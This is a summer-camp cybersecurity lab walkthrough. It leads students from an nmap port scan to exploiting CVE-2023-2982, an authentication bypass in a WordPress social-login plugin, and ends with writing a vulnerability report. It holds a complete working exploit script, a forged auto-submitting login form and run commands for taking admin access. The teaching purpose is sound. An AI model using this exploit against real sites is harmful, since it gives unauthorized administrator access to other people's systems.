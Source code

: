 <h1>Welcome to GenCyber Summer Camp 2024!</h1>

Together we are going to learn how to exploit a website that has a public vulnerability.  Lets see what else we can figure out about this website.  We also know that the website owner emailed us from admin@example.com which might come in handy later.

<h3>The pictures were taking using Chromium, if you're using Firefox you may need to do some deeper diving</h3>

Lets take a look at: [Download the Free Nmap Security Scanner for Linux/Mac/Windows](https://nmap.org/download.html)

To install on your Raspberry Pis, just use `sudo apt install nmap`
<!-- Go ahead and follow the instructions to download nmap onto your device from the website.  -->

Once you have it installed you should be able to run it in your terminal with `nmap <command>`

We were given an IP address that this machine is running on: `144.80.64.114` so using that information read this article: [Port Scanning Basics | Nmap Network Scanning](https://nmap.org/book/man-port-scanning-basics.html) and see what information you can gather about this site.
<br> Don't move onto the next section until you have completed a port scan of the website and make sure to take a screenshot of the scan for your report.

<details>
    <summary>
        After scanning you should have discovered these ports are running:
    </summary>
    443, 80
</details>

In your browser go to: [http://144.80.64.114/](http://144.80.64.114/), which is the website running on port 80 and have a look around.  After you had some time to explore you should right click and inspect the website:
![[Pasted image 20240626205001.png]](https://raw.githubusercontent.com/alphapuggle/GenCyber2024/main/Pasted%20image%2020240626205001.png)

And then take a look at the applications tab and examine the cookies for the site:
![[Pasted image 20240626210027.png]](https://raw.githubusercontent.com/alphapuggle/GenCyber2024/main/Pasted%20image%2020240626210027.png)

Notice how that table is empty, showing us that we are not logged in.  Now take a look at the network tab and take note of this service that we have running on the site:
![[Pasted image 20240626213842.png]](https://raw.githubusercontent.com/alphapuggle/GenCyber2024/main/Pasted%20image%2020240626213842.png)

This login method is out of date and has known vulnerabilities associated with it which you can read about here: [CVE-2023-2982 : The WordPress Social Login and Register (Discord, Google, Twitter, LinkedIn) plugin for WordPress is vulnerable to authe (cvedetails.com)](https://www.cvedetails.com/cve/CVE-2023-2982/)

> Make sure to take note of this in your report as well as a screenshot of the running service.


Now that we have a possible login method lets look and see if there are any proof's of concept attacks (POCs) for the attack or public scripts that exploit this attack.  I encourage you to do your own research about this vulnerability but for the purpose of this lab I have found us a POC that we can use: [GitHub - RandomRobbieBF/CVE-2023-2982: WordPress Social Login and Register (Discord, Google, Twitter, LinkedIn) <= 7.6.4 - Authentication Bypass](https://github.com/RandomRobbieBF/CVE-2023-2982/tree/main) 

Typically you would have to download and modify this file yourself. To prevent errors or anything actually malicious, I have uploaded the code you will need here:

create a file called `exploit.py` and put this code in it:

<h3>exploit.py</h3>

```python
import requests
import os
from Cryptodome.Cipher import AES
from Cryptodome.Util.Padding import pad
import base64
import argparse
import random
import string

# Disable insecure request warnings
from requests.packages.urllib3.exceptions import InsecureRequestWarning
requests.packages.urllib3.disable_warnings(InsecureRequestWarning)

# Set up session with a custom User-Agent
session = requests.Session()
user_agent = "Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/114.0.0.0 Safari/537.36"
session.headers.update({'User-Agent': user_agent})

passphrase = 'jMj7MEdu4wkHObiD'

def try_login(website_url, email):
    website_url = website_url.rstrip('\/') + '/'
    
    # Encrypt and encode email
    cipher = AES.new(passphrase.encode('utf-8'), AES.MODE_ECB)
    padded_email = pad(email.encode('utf-8'), AES.block_size)
    encrypted_email = cipher.encrypt(padded_email)
    encoded_email = base64.b64encode(encrypted_email).decode('utf-8')
    
    try:
        response = session.post(website_url, headers={'Content-Type': 'application/x-www-form-urlencoded'},
                                data={'option': 'moopenid', 'email': encoded_email, 'appName': 'rlHeqZw2vrPzOiWWfCParA=='},
                                allow_redirects=False, verify=False, timeout=10)
        
        if any('wordpress_logged_in' in cookie.name for cookie in session.cookies):
            print("Login Worked!")
            random_string = ''.join(random.choices(string.digits, k=4))
            with open("login.html", 'r') as file:
                file_content = file.read()
                replaced_content = file_content.replace('WEBSITE_REPLACE', website_url).replace('EMAIL_REPLACE', encoded_email)
            
            with open(f"login-{random_string}.html", 'w') as file:
                file.write(replaced_content)
            print(f"To login again, open login-{random_string}.html")
        else:
            print(f"Login Failed with {email}")
    except requests.exceptions.RequestException as e:
        print('Error occurred while logging in:', str(e))

def scan_and_extract(website_url):
    print(f"Crawling {website_url} for email addresses.")
    os.system(f"katana -kf all -u {website_url} -o /tmp/katana.txt")
    print("Using Nuclei to extract emails from links")
    os.system("nuclei -l /tmp/katana.txt -t email-extraction.yaml -nc -nm -fr -o /tmp/nuc.txt")
    
    with open("/tmp/nuc.txt", "r") as f:
        lines = f.readlines()
        emails = set()
        for line in lines:
            matches = re.findall(r'\b[A-Za-z0-9._%+-]+@[A-Za-z0-9.-]+\.[A-Z|a-z]{2,}\b', line)
            emails.update(matches)
    
    with open("/tmp/nuc.txt", "w") as f:
        for email in emails:
            f.write(email + "\n")
    
    for email in emails:
        try_login(website_url, email)

def main():
    parser = argparse.ArgumentParser(description='CVE-2023-2982 Exploit')
    parser.add_argument('-w', '--website_url', required=True, help='Website URL')
    parser.add_argument('-e', '--email', required=False, help='Email')
    args = parser.parse_args()
    
    website_url = args.website_url
    email = args.email
    
    if email:
        try_login(website_url, email)
    else:
        scan_and_extract(website_url)

if __name__ == "__main__":
    main()

```

Create another file called `login.html` and put this code inside of it:

<h3>login.html</h3>

```html
<html>
<head>
    <script src="https://cdnjs.cloudflare.com/ajax/libs/jquery/1.11.1/jquery.js" integrity="sha512-eKwZNCvuOhxcqGTXAudC9WH2KUKf8Id1cqNoMc6DKZuN8upL22xj3ZkJdckyDd3Gjsi1QHKZ3ug0XQHQkGRNJg==" crossorigin="anonymous" referrerpolicy="no-referrer"></script>
    <script type="text/javascript">
        $(document).ready(function () {
            window.document.forms[0].submit();
        });
    </script>
</head>
<body>

<p style="font: calibri;">Please wait...</p>
<form action="WEBSITE_REPLACE/?option=moopenid" method="post" id="oauth-form">
    <input type="hidden" name="access_token" value="null"/>
    <input type="hidden" name="token_type" value="null"/>

    <input type="hidden" name="profileUrl" value="null"/>

    <input type="hidden" name="firstName" value="null"/>

    <input type="hidden" name="lastName" value="null"/>

    <input type="hidden" name="appName" value="5mOYjGe8QSZBuYFqNSAS4A=="/>

    <input type="hidden" name="profilePic" value="null"/>

    <input type="hidden" name="userid" value="null"/>

    <input type="hidden" name="email" value="EMAIL_REPLACE"/>

    <input type="hidden" name="username" value="null"/>

</form>
</body>
</html>

```

To use the `explot.py` file, we need to install these dependencies using pip:
```
requests 
pycryptodome
```
If you get a warning about an externally managed environment, try using `sudo apt install python3-pycryptodome` instead

Make sure both files are in the same directory, and `cd` to it. Once you're in the directory you can run the following command: `python3 exploit.py -w http://144.80.64.114/ -e admin@example.com` 

> Notice how we stole the website owners email from the initial email he sent us.

You should get terminal output that looks like this:
```
>> python3 exploit.py -w http://144.80.64.114/ -e admin@example.com
Login Worked!
To login again, open login-4358.html
```

Now there should be a new .html file in the same directory as your script.  Open it up and it should take you to the website (if for some reason it takes you to localhost/127.0.0.1 just keep reopening the new html file until you return to the blog site) 

Once you are on the new site you should now see a menu open on the left which should greet you as admin meaning you have successfully logged in as an admin user on the site.  To further verify this you can go back into the cookies tab and confirm you are logged in as admin:
![[Pasted image 20240626205943.png]](https://raw.githubusercontent.com/alphapuggle/GenCyber2024/main/Pasted%20image%2020240626205943.png)

> Make sure to take a screenshot of this for your report.

Now that you have completed your attack take some time to do some research and write a mini report that you could give to your friend or client outlining this vulnerability.<br>
Your report should outline what vulnerability was found, what it impacts, and how to mitigate it.

Make sure to pull information from some resources we have already seen as well, I'll list these two to start:<br>
[CVE-2023-2982 : The WordPress Social Login and Register (Discord, Google, Twitter, LinkedIn) plugin for WordPress is vulnerable to authe (cvedetails.com)](https://www.cvedetails.com/cve/CVE-2023-2982/)<br>
[OWASP Top Ten | OWASP Foundation](https://owasp.org/www-project-top-ten/)
